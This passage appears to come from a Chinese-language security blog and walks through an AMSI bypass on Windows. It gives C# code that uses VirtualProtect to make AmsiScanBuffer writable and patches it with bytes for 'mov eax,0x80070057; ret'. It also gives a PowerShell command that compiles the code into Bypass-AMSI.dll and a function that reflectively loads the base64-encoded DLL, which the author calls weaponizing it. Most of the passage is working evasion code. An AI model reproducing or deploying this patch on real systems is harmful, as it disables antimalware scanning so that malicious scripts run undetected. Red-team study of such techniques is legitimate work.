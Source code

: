 ```plain

            UIntPtr dwSize = (UIntPtr)5;
            uint Zero = 0;
            if (!VirtualProtect(AmsiScanBufferPtr, dwSize, 0x40, out Zero))
            {
                Console.WriteLine("ERROR: Could not change AmsiScanBuffer memory permissions!");
                return 1;
            }


    Byte[] Patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
    IntPtr unmanagedPointer = Marshal.AllocHGlobal(6);
    Marshal.Copy(Patch, 0, unmanagedPointer, 6);
    MoveMemory(AmsiScanBufferPtr ,unmanagedPointer, 6);


            Console.WriteLine("AmsiScanBuffer patch has been applied.");
            return 0;
        }
    }
}
```

c#这段码的功能就是在`AmsiScanBuffer`的函数地址处直接打补丁，补丁汇编是 (推荐汇编转 16 进制网站[Online x86 and x64 Intel Instruction Assembler (defuse.ca)](https://defuse.ca/online-x86-assembler.htm#disassembly))：

```plain
mov eax,0x80070057
ret
```

我们将代码直接保存为 source.cs，然后用 ps 去编译，命令如下：

```plain
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "Bypass-AMSI.dll"
```

[![](assets/1709530518-07f0aa3419186fadc5728fb628a6363b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102107-b125f57e-d904-1.png)

报毒，我们然后我们把 dll 文件进行 base64 编码（Kali 下，直接使用 base64 -i 文件名，就可以得到 base64 编码），然后使用 powershell 进行武器化，反射加载，也是直接被秒

```plain
unction Bypass-AMSI
{
    if(-not ([System.Management.Automation.PSTypeName]"Bypass.AMSI").Type) {
        [Reflection.Assembly]::Load([Convert]::FromBase64String("你的 base64 编码")) | Out-Null
        Write-Output "DLL has been reflected";
    }
    [Bypass.AMSI]::Disable()
}
```
